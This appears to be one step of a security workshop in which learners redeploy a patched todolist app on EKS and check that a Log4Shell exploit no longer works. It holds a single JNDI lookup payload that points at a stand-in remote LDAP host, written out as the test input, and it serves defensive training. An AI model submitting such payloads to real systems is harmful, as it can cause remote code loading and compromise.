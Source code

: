 +++
title = "Step 9: Verify the Vulnerability is no longer exploitable."
chapter = false
weight = 44
+++

## Update your Cloud9 working branch

Back in Cloud9, pull the latest changes, including the Snyk Fix, to the working environment.

```sh
git pull
```

## Re-build the Image
Now build and push the container to ECR (make sure you are cd'ed into the todolist directory).

```sh
docker build -t $ECR_REPO/todolist:latest .
docker push $ECR_REPO/todolist:latest
```

## Re-deploy the Application to EKS

After pushing the image to ECR, push it to EKS by scaling the goof deployment with kubectl. The deployment's ImagePullPolicy forces EKS to pull the latest image from ECR.

```sh
kubectl scale deployment todolist --replicas=0
kubectl scale deployment todolist --replicas=1
```

## Verify the Exploit no longer works

Refresh your broweser tab on the todolist app and log back in (user: foo@bar.org, password: foobar) and submit the same JDNI search string: `${jndi:ldap://ldap.darkweb:80/#Vandalize}`.
The page will not show the graphiti because the newer version on Log4J no longer is vulnerable!

![todolist-fixed](/images/todolist-fixed.png)